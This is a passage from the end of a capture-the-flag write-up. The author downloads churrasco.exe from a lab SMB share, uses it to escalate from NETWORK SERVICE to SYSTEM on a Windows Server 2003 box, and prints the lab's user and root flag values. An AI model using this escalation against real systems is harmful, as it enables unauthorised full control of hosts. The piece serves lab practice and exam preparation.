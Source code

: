 ```console
copy \\10.10.14.93\rogue\churrasco.exe
```

Now we run the program and we get our root shell!

```console
C:\temp>churrasco.exe -d cmd.exe
churrasco.exe -d cmd.exe
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x734
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x72c
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami

C:\temp>whoami
whoami
nt authority\system

C:\WINDOWS\TEMP>
```

Bada bing bada boom we have full access and can get both flags :)

```console
C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
700c5dc163014e22b3e408f8703f67d1
```
```console
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9
```

Learned a few new things and I am trying to steer away from metasploit so I can prepare for the OSCP.

As an extra bonus here is the metasploit exploit I orignally used before deciding to do it manually. After grabbing a meterpreter shell you could enumerate more exploits on the system and get a quick root shell. Metasploit is super nice but unfortunately is not allowed on the OSCP.
